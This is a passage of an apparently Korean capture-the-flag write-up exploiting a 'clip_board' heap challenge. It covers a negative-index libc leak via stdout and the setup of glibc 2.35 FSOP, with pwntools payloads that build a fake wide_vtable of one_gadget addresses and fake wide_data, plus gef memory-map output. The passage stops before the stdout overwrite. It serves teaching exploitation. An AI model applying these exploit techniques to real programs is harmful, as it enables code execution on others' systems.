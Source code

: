 `0x555555558008` 영역에 `__dso_handle`라는 변수명으로 bss 영역의 주소가 쓰여있어 확인해보니 `fini_array`의 `__do_global_dtors_aux`에서 한번 참조하는 것을 제외하고는 참조되지 않는다. 이 문제에서는 딱히 의미가 없지만 기억해뒀다가 나중에 써먹으면 좋을 것 같다.

`stdin`은 `chunk_list[-2]`, `stdout`은 `chunk_list[-4]`로 접근이 가능한데, `ViewClipboard`로 값을 읽어오기 위해서는 `check_chunk_list[-2]`나 `check_chunk_list[-4]`에 `0`이 아닌 값을 넣을 수 있어야 한다.

그렇다면 `0x55555555808e` 혹은 `0x55555555808c`에 값을 넣어야 한다는 소린데, `index`를 `9`로 입력해서 `0x555555558088`에 `malloc()`이 반환한 값을 저장한다고 해도 주소 값이 쓰일테니 `0x55555555808e`에는 `0`이 들어간다.

따라서 `stdout`만 `view`가 가능하고, 다음과 같은 payload로 libc 주소를 얻었다.
``` python
    # leak libc
    add_clipboard(s, 1, 0x10, b"A" * 0x10)
    add_clipboard(s, 9, 0x10, b"B" * 0x10)
    r = view_clipboard(s, -4)
    libc = u64(r[8:16]) - 0x21b803
    stdout_fp = r[0:0xe0]
    log.info(f"libc : {hex(libc)}")

    # clean clipboards
    del_clipboard(s, 1)
    del_clipboard(s, 9)
```

### FSOP
``` bash
gef➤  vmmap
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x0000555555554000 0x0000555555555000 0x0000000000000000 r-- /home/user/clip_board
0x0000555555555000 0x0000555555556000 0x0000000000001000 r-x /home/user/clip_board
0x0000555555556000 0x0000555555557000 0x0000000000002000 r-- /home/user/clip_board
0x0000555555557000 0x0000555555558000 0x0000000000002000 r-- /home/user/clip_board
0x0000555555558000 0x0000555555559000 0x0000000000003000 rw- /home/user/clip_board
```
Full RELRO가 적용되어있기 때문에 GOT영역은 `write`가 불가능하므로 `0x555555558000`와 `chunk_list`의 사이에는 `stdout`, `stdin`밖에 없다.

`stdout`, `stdin`을 바꿔서 RIP control을 해야하니 자료를 찾아보다가 FSOP 기법을 발견했다.

FSOP 기법은 [이 글](https://fitbl4nk.github.io/posts/FSOP-glibc-2.35에서-_IO_flush_all_lockp을-이용해-FSOP-하기/)에 정리한 내용을 사용했다.

문제에서는 `AddClipboard()` 기능을 이용하여 메모리를 마음대로 할당받을 수 있고, 처음에 heap 주소를 주었으니 offset을 계산하여 다음과 같이 payload를 작성했다.
``` python
    # allocate wide_vtable
    one_gadget = libc + 0xebc85
    payload = p64(0) * 2                        # dummy
    payload += p64(one_gadget) * 19
    add_clipboard(s, 6, len(payload), payload)
    wide_vtable = heap + 0x4a0

    # allocate anywhere can read / write
    add_clipboard(s, 7, 0x100, b"\x00" * 8)
    anywhere_rw = heap + 0x550

    # allocate wide_data
    payload = bytearray(0x100)
    payload[0x18:0x20] = p64(0)
    payload[0x20:0x28] = p64(anywhere_rw)
    payload[0x30:0x38] = p64(0)
    payload[0xe0:0xe8] = p64(wide_vtable)
    add_clipboard(s, 8, len(payload), payload)
    wide_data = heap + 0x660

    # allocate new_fp and overwrite stdout
```